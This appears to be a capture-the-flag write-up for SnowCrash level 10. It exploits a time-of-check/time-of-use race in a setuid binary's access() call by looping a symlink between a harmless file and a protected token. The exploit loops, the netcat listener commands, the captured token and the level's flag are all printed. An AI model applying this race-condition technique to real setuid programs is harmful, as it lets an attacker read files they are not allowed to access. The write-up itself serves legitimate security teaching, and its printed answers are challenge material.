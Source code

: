 # Level 10

## Vulnerability
Privilege escalation - symlink

Access call

## Context
```
level10@SnowCrash:~$ ls -l
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```
```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

## Solution

Can we find a host port hint in the binary?
```
level10@SnowCrash:~$ strings level10
...
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
...
```
In a second terminal lets use Netcat to listen on this port.
```
level10@SnowCrash:~$ nc 6969 -l
```
Back in the first terminal, if we create a file and send it to ourselves, it arrives in the second terminal.
```
level10@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level10@SnowCrash:~$ ./level10 /dev/shm/hi {VM_IP}
Connecting to {VM_IP}:6969 .. Connected!
Sending file .. wrote file!
```
To access the token, we find a potential weakness in the binary's use of ```access```.
```
level10@SnowCrash:~$ nm -u level10
...
         U access@@GLIBC_2.0
...
```
```man 2 access``` briefly describes [the vulnerability](https://stackoverflow.com/questions/7925177/access-security-hole)

> Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because  the  user  might
       exploit  the  short time interval between checking and opening the file to manipulate it.

So lets create an infinite loop which switches a symbolic link between the binary and the token.
```
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/symlink; ln -fs ~/token /tmp/symlink; done
```
Then run the binary on the symbolic link.
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/symlink {VM_IP}; done
```
Then when we listen, sometimes its garbage, but sometimes we read the token!
```
level10@SnowCrash:~$ nc 6969 -l
woupa2yuojeeaaed06riuj63c
```
Great!
```
level10@SnowCrash:~$ su flag11
Password:
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

